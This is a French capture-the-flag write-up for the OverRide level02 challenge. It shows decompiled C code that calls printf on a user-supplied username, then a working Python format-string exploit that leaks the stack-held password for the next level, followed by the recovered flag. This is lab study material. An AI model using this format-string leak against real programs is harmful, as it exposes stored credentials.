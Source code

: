# OverRide : [level02]

### Observation :
En arrivant sur le level02 on trouve un exécutable nommé level02.\
Quand nous essayons de le lancer cela nous demande un nom d'utilisateur puis un mot de passe. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
//----- (0000000000400814) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s2[96]; // [rsp+10h] [rbp-110h] BYREF
  int v5; // [rsp+70h] [rbp-B0h]
  char ptr[48]; // [rsp+80h] [rbp-A0h] BYREF
  char s[96]; // [rsp+B0h] [rbp-70h] BYREF
  int v8; // [rsp+110h] [rbp-10h]
  int v9; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(s, 0, sizeof(s));
  v8 = 0;
  memset(ptr, 0, 41);
  memset(s2, 0, sizeof(s2));
  v5 = 0;
  stream = 0LL;
  v9 = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  v9 = fread(ptr, 1uLL, 0x29uLL, stream);
  ptr[strcspn(ptr, "\n")] = 0;
  if ( v9 != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    fwrite("ERROR: failed to read password file\n", 1uLL, 0x24uLL, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(s, 100, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("--[ Password: ");
  fgets(s2, 100, stdin);
  s2[strcspn(s2, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(ptr, s2, 0x29uLL) )
  {
    printf(s);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", s);
  system("/bin/sh");
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre Programme, en 64bits, commence par ouvrir le fichier `/home/users/level03/.pass` et copie le contenu dans un string `ptr`, le programme nous demande par la suite notre nom d'utilisateur depuis `stdin` et le place dans la variable `<s>` (ce nom d'utilisateur sera printf plus tard). Il nous demande maintenant un mot de passe en `stdin` qu'il va ensuite comparer au `password` de `level03`. Dans le cas où nous aurions le bon mot de passe, cela nous ouvre un `shell` en tant que `level03` sinon ça nous print `"does not have access!"`|


#### Conclusions:
Nous savons que notre mot de passe est stoqué, dans la stack, dans la variable `<ptr>`. \
Nous savons que nous pouvons remonter dans la stack grâce à notre stdin de user qui est lu bêtement par printf.
> Effectivement printf utiliser de cette manière: "printf(s)" (sans argument) permet d'injecter des points d'injections (%s / %c / %n / ex..) qui nous permettent de remonter dans la stack.


----
Résolution:
----
Nous devons trouver ou dans la stack ou est stocker `<ptr>` et lire son contenu. \
Nous devons ensuite remonter de printf en faisant des points d'injections jusqu'à tomber sur `<ptr>` puis afficher chaque groupe de 8octets (nous sommes en 64bits) avec printf `%lx`. \
Ensuite, nous devons transformer chaque octets en caractère, cela nous donne ça:

>ptr brut (%lx * 5): "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d"

>ptr décoder: "M9KfPg3HsXGnh5J5XgNWCqz7Q9sa5JAEHh74RPnu"

Malheureusement si on le test en mot de passe cela ne fonctionne pas...

La cause ? Nous sommes en little endian, il faudra donc retourner nos blocs de 8 octets un par un...

En commande python cela donne quelque chose comme ça:

> 756e505234376848 | 45414a3561733951 | 377a7143574e6758 | 354a35686e475873 | 48336750664b394d

```sh
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"
```



#### Injection:
Mais ici, on fait dev, on ne fait pas les choses a la main donc on a fait directement un programme python qui fait absolument tout ce que j'ai dit précédemment: 
```python
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))
```
- Il pipe avant le programe avec `echo ' + '%c'*21 + '%8.lx'*5`
- Il lance le programe et recupere la derniere chaine de caracteres
- Il trouve les chiffres qui nous interressent 
- Il les met par blocs de 8 et les inversent
- Enfin il nous renvoient nous affiche notre mot de passe traduit en ASCII

#### Commande:
```bash
python -c "print('\x75\x6e\x50\x52\x34\x37\x68\x48'[::-1] + '\x45\x41\x4a\x35\x61\x73\x39\x51'[::-1] + '\x37\x7a\x71\x43\x57\x4e\x67\x58'[::-1] + '\x35\x4a\x35\x68\x6e\x47\x58\x73'[::-1] + '\x48\x33\x67\x50\x66\x4b\x39\x4d'[::-1])"

----------------------------------------------------------------------------

python -c"
import binascii
import os

def divide(l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

stream = os.popen('echo ' + '%c'*21 + '%8.lx'*5 + ' | /home/users/level02/level02')
for i in range(6):
        output = stream.readline()
input_string = output[21:101:]
parts = divide(input_string, 16)
stringrev = ''.join(''.join(divide(part, 2)[::-1]) for part in parts)
print(binascii.unhexlify(stringrev).decode('utf-8'))"
```

#### Flag: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

